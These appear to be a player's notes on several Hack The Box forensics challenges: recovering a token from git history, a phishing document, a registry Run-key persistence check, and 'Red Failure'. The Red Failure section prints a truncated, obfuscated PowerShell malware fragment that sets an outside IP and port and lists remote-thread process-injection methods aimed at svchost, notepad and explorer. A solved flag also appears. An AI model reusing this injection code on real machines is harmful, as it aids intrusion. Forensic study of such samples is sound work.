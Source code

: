 # illumination

looking inside bot.js file we can see that

`client.login(Buffer.from(config.token, 'base64').toString('ascii')) //Login with secret token`

so token should be taken from config.json howevere

```
{

	"token": "Replace me with token when in use! Security Risk!",
	"prefix": "~",
	"lightNum": "1337",
	"username": "UmVkIEhlcnJpbmcsIHJlYWQgdGhlIEpTIGNhcmVmdWxseQ==",
	"host": "127.0.0.1"

}
```

but we see that we have a hidden zip folder

and a file commit edits

`You are currently splitting a commit while rebasing branch 'master' on 'ddc606f'.
#0`

can we get the commit ddc606f ?

so we can use git checkout ddc606f

```

 Directory of C:\Users\vipla\Downloads\Illumination

10-07-2022  08:54    <DIR>          .
10-07-2022  08:54    <DIR>          ..
31-05-2019  03:10    <DIR>          Illumination.JS
               0 File(s)              0 bytes
               3 Dir(s)  136,622,346,240 bytes free

C:\Users\vipla\Downloads\Illumination>cd Illumination.JS

C:\Users\vipla\Downloads\Illumination\Illumination.JS>dir
 Volume in drive C is Windows
 Volume Serial Number is 0EDF-FD28

 Directory of C:\Users\vipla\Downloads\Illumination\Illumination.JS

31-05-2019  03:10    <DIR>          .
31-05-2019  03:10    <DIR>          ..
31-05-2019  03:10             2,635 bot.js
31-05-2019  03:10               199 config.json
               2 File(s)          2,834 bytes
               2 Dir(s)  136,622,346,240 bytes free

C:\Users\vipla\Downloads\Illumination\Illumination.JS>git checkout ddc606f
Note: switching to 'ddc606f'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at ddc606f Added some more comments for the lovely contributors! Thanks for helping out!

C:\Users\vipla\Downloads\Illumination\Illumination.JS>dir
 Volume in drive C is Windows
 Volume Serial Number is 0EDF-FD28

 Directory of C:\Users\vipla\Downloads\Illumination\Illumination.JS

10-07-2022  09:02    <DIR>          .
10-07-2022  09:02    <DIR>          ..
10-07-2022  09:02             2,616 bot.js
10-07-2022  09:02               194 config.json
               2 File(s)          2,810 bytes
               2 Dir(s)  136,622,075,904 bytes free

C:\Users\vipla\Downloads\Illumination\Illumination.JS>type config.json
{

        "token": "SFRCe3YzcnNpMG5fYzBudHIwbF9hbV9JX3JpZ2h0P30=",
        "prefix": "~",
        "lightNum": "1337",
        "username": "UmVkIEhlcnJpbmcsIHJlYWQgdGhlIEpTIGNhcmVmdWxseQ==",
        "host": "127.0.0.1"

```

looks like base64 encoded

and we get the flag

`HTB{v3rsi0n_c0ntr0l_am_I_right?}`

# Diagnostic

Our SOC has identified numerous phishing emails coming in claiming to have a document about an upcoming round of layoffs in the company. The emails all contain a link to diagnostic.htb/layoffs.doc. The DNS for that domain has since stopped resolving, but the server is still hosting the malicious document (your docker). Take a look and figure out what's going on.

# Red Failure

https://blog.ericturner.it/2022/03/02/hackthebox-forensics-challenge-red-failure/

http request 

```
  sV  ("{0}{1}" -f'Y','uE51') ([typE]("{5}{0}{2}{3}{1}{4}"-f 'STeM','EcTIOn.aS','.REF','L','SemblY','Sy'));  ${a} = ("{0}{1}{2}{3}{4}" -f 'cu','rr','en','tth','read')
${B} = ("{1}{0}{3}{2}" -f '.182.1','147','89','72.1')
${C} = 80
${D} = ("{2}{0}{1}" -f '.dl','l','user32')
${E} = ("{1}{0}" -f 'tVI0','9')
${f} = (('z6'+'4&Rx27Z{0}B%'+'7'+'3u'+'p')  -F[cHar]36)
${g} = ((("{8}{5}{3}{1}{2}{0}{7}{4}{6}"-f '2','owsf3h','System3','d','svcho','Win','st.exe','f3h','C:f3h'))."r`EPlAcE"('f3h',[StRINg][ChaR]92))
${h} = ("{0}{1}"-f 'notepa','d')
${I} = ("{1}{0}"-f'xplorer','e')
${j} = ("{1}{0}{2}" -f'_','msvcp','win.dll')
${k} = ("{0}{1}" -f 'Tru','e')
${l} = ("{1}{0}" -f'rue','T')

${Me`Th`ODS} = @(("{1}{0}{2}{3}"-f'ot','rem','et','hread'), ("{2}{0}{1}{3}" -f'mo','tethre','re','addll'), ("{4}{2}{1}{3}{0}" -f'view','hr','otet','ead','rem'), ("{1}{3}{2}{4}{0}"-f 'ed','rem','e','ot','threadsuspend'))
if (${m`E`ThOdS}.("{0}{1}{2}"-f'C','ontain','s').Invoke(${A})) {
    ${h} = (&("{1}{0}{2}{3}" -f'tart
```

104.208.16.94	onedsblobprdcus16.centralus.cloudapp.azure.com

# Siezed

https://ctftime.org/writeup/33938

# persistence

https://ctftime.org/writeup/33938

using regshell

we looked at software/microsoft/windows/currentversion/run

a file was scheduled to run

putting the name in cyberchef we got the answer/.

